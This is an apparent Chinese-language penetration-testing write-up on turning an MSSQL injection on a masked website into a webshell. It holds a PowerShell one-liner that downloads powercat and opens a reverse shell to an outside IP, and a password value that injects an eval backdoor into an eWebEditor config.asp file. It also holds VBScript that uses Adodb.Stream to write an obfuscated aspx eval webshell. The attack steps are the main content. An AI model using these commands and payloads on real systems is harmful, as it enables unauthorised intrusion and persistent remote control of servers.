 ```yaml
---
title: 从注入到webshell
date: 2019-01-06 02:59:27
tags:
---
```


>背景：一朋友渗透测试中遇到一个注入点可执行命令，但无法突破写shell卡住,**mssql**注入**dba**权限**whoami**为**network**权限木马暂时未上

注入点: `https://********.com/member/news.asp?ID=6666`

### 判断是否站库分离 ###
```sql
select @@servername`
select host_name()`
```
发现站库是同服务器

![2019-07-30-05-03-10](https://wolvez.oss-cn-hangzhou.aliyuncs.com/87f95d1b0395eb09b9d6dae8a3d1c799.png)

直接sqlshell执行命令返回太慢，且容易产生大量不必要日志，web目录不可写，所以这里使用powershell反弹shell

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 123.123.123.123 -p 443 -e cmd
```
![2019-07-30-05-22-18](https://wolvez.oss-cn-hangzhou.aliyuncs.com/fa0d3207b6d655871c7072fa68b27f0d.png)

web目录不可写
![2019-07-30-06-24-51](https://wolvez.oss-cn-hangzhou.aliyuncs.com/669c6f379359eccb94d33e5f81bb8218.png)

发现有php进程，看php进程是否以system权限启动，如果为system权限启动并且对应的web目录可写，就直接省去了提权
`tasklist /fi "IMAGENAME eq php.exe" /v`
执行发现并不是高权限启动

发现eweb编辑器，且配置文件插入了常用iis可解析后缀
![2019-07-30-05-17-51](https://wolvez.oss-cn-hangzhou.aliyuncs.com/1a8a9527e98abd55d7e51ce3c700dcd3.png)

登录eweb编辑器发现没有开启asp上传相关组件，无法使用eweb编辑器进行上传任何文件，但是可以**修改配置文件**，也就是说并不是真正的不可写，修改配置文件调用的是`Adodb.Stream`，而通常上传代码为`Scripting.FileSystemObject` 组件
![2019-07-30-06-23-01](https://wolvez.oss-cn-hangzhou.aliyuncs.com/c6b742eef477112b137db0d1d2b43db8.png)
![2019-07-30-05-26-44](https://wolvez.oss-cn-hangzhou.aliyuncs.com/4ceb6c9c1cd81b7aa16739b50ff3c868.png)

查看`ewebeditor/admin/private.asp`

![2019-07-30-06-16-39](https://wolvez.oss-cn-hangzhou.aliyuncs.com/1b92b362fb8b7daccf6fd9c4ba0d22be.png)

拿shell思路写config.asp配置文件
**修改写配置文件**
将密码修改为:
`aaaaaaaaa":eval request("a")'`
**aaaaaaaaa**为原本密码
成功连接webshell
`https://********.com/ewebeditor/asp/config.asp`

![2019-07-30-06-20-52](https://wolvez.oss-cn-hangzhou.aliyuncs.com/c4474d311ce034824c948d316a5c4b5b.png)


既然Adodb.Stream 可以修改配置文件，那么同样也可以用来上传文件，下图是eweb中写配置文件代码，我们可以直接抠出来用

![2019-07-30-06-35-07](https://wolvez.oss-cn-hangzhou.aliyuncs.com/b454668b6fbb582f4a442fd903b52a40.png)


>菜刀执行自定义代码
![2019-07-30-06-46-31](https://wolvez.oss-cn-hangzhou.aliyuncs.com/d296bb33a190c6d775637d5108979f42.png)

利用Adodb.Stream 写aspxshell
```vbs
Sub WriteFile(s_FileName, s_Text)
	On Error Resume Next
	Err.Clear
	Dim stm
	Set stm = Server.CreateObject("Adodb.Stream")
	stm.Type = 2
	stm.mode = 3
	stm.charset = "utf-8"
	stm.Open
	stm.WriteText s_Text
	stm.SaveToFile Server.Mappath(s_FileName), 2
	stm.flush
	stm.Close
	Set stm = Nothing

	If Err.Number<>0 Then
		Err.Clear
		Response.Write "<br><br>Error: Write config file, reason:<br>1. You do not have write privileges for eWebEditor/asp/config.asp<br>2. Server have disabled Adodb.Stream Object"
		Response.End
	End If	
End Sub
aspxshell= "<"&"%"&"@"&"Page Language"&"="&""""&"Jscript"&""""&"%"&">"&"<"&"%"&"eval"&"("&"Request"&"."&"Item"&"["&""""&"pass"&""""&"]"&","&""""&"unsafe"&""""&")"&";"&"%"&">"
Call WriteFile("../uploadfile/config.aspx", aspxshell)
```
成功获得aspxshell：
`https://********.com/ewebeditor/asp/config.aspx` `pass`

这里为什么要用aspx shell呢？因为`.net`有可能继承users组权限，且不受`fso`(FileSystemObject)组件影响,当然也可以使用**无fsoshell**



数据库反弹shell无法对web目录写文件原因下几个图片可以说明：
![2019-07-30-06-45-23](https://wolvez.oss-cn-hangzhou.aliyuncs.com/c9fd7a7adea2782bb6801de9e590428b.png)

数据库shell权限：
![2019-07-30-06-38-05](https://wolvez.oss-cn-hangzhou.aliyuncs.com/387cd9e0c565d0b74bc611d16133cb5b.png)

webshell 下权限
![2019-07-30-06-44-09](https://wolvez.oss-cn-hangzhou.aliyuncs.com/f2f953c2079630b0ee221b8c58b8bf5a.png)

